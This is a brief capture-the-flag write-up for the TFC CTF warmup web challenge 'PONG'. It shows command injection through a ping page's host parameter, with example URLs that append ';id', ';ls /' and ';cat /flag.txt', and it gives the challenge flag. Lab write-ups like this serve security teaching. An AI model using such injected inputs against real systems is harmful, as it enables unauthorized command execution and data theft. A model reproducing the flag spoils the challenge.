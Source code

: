# TFC CTF

## WEB

### PONG

**Difficulty:** Warmup

**Statement:** Some random website that can ping hosts.

***

For this challenge, the web server hosts a service to perform pings via the URL: `http://01.linux.challenges.ctf.thefewchosen.com:49341/index.php?host=127.0.0.1`

A simple `;` after the ping command allows a command injection: `http://01.linux.challenges.ctf.thefewchosen.com:49341/index.php?host=127.0.0.1;id`

![image](https://user-images.githubusercontent.com/49941629/182030298-07a99108-7fb7-45cd-85b2-70e6371eaeea.png)

You just have to do a `ls /`: `http://01.linux.challenges.ctf.thefewchosen.com:49341/index.php?host=127.0.0.1;ls%20/`

![image](https://user-images.githubusercontent.com/49941629/182030366-3ad2ac16-e818-4b54-a28a-f4f108444e72.png)

 Then a `cat` to get the flag back ! `http://01.linux.challenges.ctf.thefewchosen.com:49341/index.php?host=127.0.0.1;cat%20/flag.txt`

![image](https://user-images.githubusercontent.com/49941629/182030414-d1be59d8-c4f8-4d25-972c-3e25287eed1b.png)

Flag: TFCCTF{C0mm4nd_1nj3c5i0n_1s_E4sy}

